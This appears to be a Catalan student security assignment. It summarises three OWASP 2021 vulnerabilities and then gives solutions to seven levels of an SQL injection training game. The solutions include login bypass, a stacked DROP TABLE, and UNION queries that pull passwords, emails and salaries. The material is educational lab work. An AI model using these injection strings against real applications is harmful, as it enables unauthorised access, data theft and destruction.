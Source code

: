 ##### L’organització OWASP Foundation va actualitzar en 2021 el seu Top 10 de vulnerabilitats més trobades en aplicacions web. 

#### Escull 3 vulnerabilitats d’aquesta llista i descriu-les. Escriu l’impacte que tenen a la seguretat i quins danys pot arribar a fer un atac en aquesta vulnerabilitat. Enumera diferents mesures i tècniques per poder evitar-les.

- Numero 1 (A03-2021-Inyeccion) :

  Impacte: Permet als atacants executar comandes malicioses, obtenint accés no autoritzat a dades o control sobre el sistema.

  Danys possibles: Robatori o destrucció de dades, execució remota de codi, escalada de privilegis.

  Mesures de protecció: Utilitzar consultes preparades, validar i sanear les entrades, fer servir ORM, aplicar el principi de mínim privilegi, detectar vulnerabilitats en el codi.

- Numero 2 (A04-2021- Diseño Inseguro) : 

  Impacte: Decisions de disseny incorrectes poden exposar l'aplicació a riscos de seguretat. 

  Danys possibles: Accés no autoritzat, filtració de dades, manipulació de dades, exposició de serveis vulnerables. 

  Mesures de protecció: Aplicar seguretat des del disseny, segregació de privilegis, autenticació robusta, revisió contínua del disseny i proves de seguretat.

- Numero 3 (A08-2021-Fallas en el Software y en la Integridad de los Datos) :

  Impacte: Errors en el programari poden afectar la seguretat i la integritat de les dades.

  Danys possibles: Dades corruptes, vulnerabilitats explotades per atacants.

  Mesures de protecció: Revisar codi regularment, implementar validació de dades, i mantenir actualitzats els parches de seguretat.

#### Obre el següent enllaç (sql inseckten) i realitza un mínim de 7 nivells fent servir tècniques d’injecció SQL. 
Copia cada una de les sentències SQL resultant que has realitzat a cada nivell i comenta que has aconseguit.
Enumera i raona diferents formes que pot evitar un atac per SQL injection en projectes fets amb Razor Pages i 
Entity Framework. 

Nivell 1:

On posas l'usuari li e posat d'avant l'apostrof per tancar el comentari de username per despres comenta el resta del codi amb dos - pero poder entrar sense contrasenya

SELECT username 
FROM users 
WHERE username ='jane' -- ' AND password ='d41d8cd98f00b204e9800998ecf8427e';

Nivell 2:

E comentat com en el nivell anterior jane i li e afegit un punt i coma per a poder fer el DROP TABLE users amb el seu respectiu ; al final i per ultim els dos - per comentar la part de la contrasenya per a que no sigui necesaria

SELECT username 
FROM users 
WHERE username ='jane'; DROP TABLE users; --' AND password ='d41d8cd98f00b204e9800998ecf8427e';

Nivell 3:

En aquest nivell e fet que directament fes un select dels users per a poder accedir i e comentat com sempre la part de la contrasenya

SELECT username 
FROM users 
WHERE username ='';SELECT username FROM users; --' AND password ='d41d8cd98f00b204e9800998ecf8427e';

Nivell 4:

en aquest nivell e fet el mateix que l'anterior peró e modificat la part del select per a que nomes retorni 1 nom utilitzant la sentencia limit

SELECT username 
FROM users 
WHERE username ='';SELECT username from users limit 1 --' AND password ='d41d8cd98f00b204e9800998ecf8427e';

Nivell 5:

en aquest nivell e fet un select a una altra taula en aquest cas la de users per a fer un select de username i password

SELECT product_id, brand, size, price 
FROM shoes 
WHERE brand='';select username,password from users;';

Nivell 6:

SELECT username 
FROM users 
WHERE username ='';select salary as username from staff where firstname = 'Greta Maria';--' AND password ='d41d8cd98f00b204e9800998ecf8427e';

en aquest nivell e fet que selecioni el salary amb el seu username de la taula staff on el firstname sigui 'Greta Maria' comentant com sempre la contrasenya

Nivell 7:

SELECT product_id, brand, size, price 
FROM shoes 
WHERE brand='' UNION SELECT firstname AS product_id, email AS brand, salary AS size, employed_since AS price FROM staff WHERE name = '' OR name != '';

#### L’empresa a la qual treballes desenvoluparà una aplicació web de venda d’obres d’art. Els artistes registren les seves obres amb fotografies, títol, descripció i preu.  Els clients poden comprar les obres i poden escriure ressenyes públiques dels artistes a qui han comprat. Tant clients com artistes han d’estar registrats. L’aplicació guarda nom, cognoms, adreça completa, dni i telèfon. En el cas dels artistes guarda les dades bancaries per fer els pagaments. Hi ha un tipus d’usuari Acount Manager que s’encarrega de verificar als nous artistes. Un cop aprovats poden pública i vendre les seves obres.

#### Ara es vol aplicar aplicant els principis  de seguretat per tal de garantir el servei i la integritat de les dades. T’han encarregat l'elaboració de part de les polítiques de seguretat. Elabora els següents apartats:

- Definició del control d’accés: enumera els rols  i quin accés a dades tenen cada rol. 


- Definició de la política de contrasenyes: normes de creació, d’ús i canvi de contrasenyes. Raona si són necessàries diferents polítiques segons el perfil d’usuari.

  
- Avaluació de la informació: determina quin valor tenen les dades que treballa l'aplicació. Determina com tractar les dades més sensibles. Quines dades encriptaries?

#### En el control d’accessos, existeixen mètodes d’autenticació basats en tokens. Defineix l’autenticació basada en tokens. Quins tipus hi ha? Com funciona mitjançant la web? Cerca llibreries .Net que ens poden ajudar a implementar autenticació amb tokens.

#### Crea un projecte de consola amb un menú amb tres opcions:

- Registre: l’usuari ha d’introduir username i una password. De la combinació dels dos camps guarda en memòria directament l'encriptació. Utilitza l’encriptació de hash HA256. Mostra per pantalla el resultat.
Verificació de dades: usuari ha de tornar a introduir les dades el programa mostra per pantalla si les dades són correctes.

- Encriptació i desencriptació amb RSA. L’usuari entrarà un text per consola. A continuació mostra el text encriptat i en la següent línia el text desencriptat. L’algoritme de RSA necessita una clau pública per encriptar i una clau privada per desencriptar. No cal guardar-les en memòria persistent.
	Per realitzar aquest exercici utilitza la llibreria System.Security.Cryptography.


Indica les referències que has consultat, seguint el següent format:
Indica les fonts que has consultat (pàgines web, llibres, revistes,...). Cal seguir la notació bibliogràfica següent:

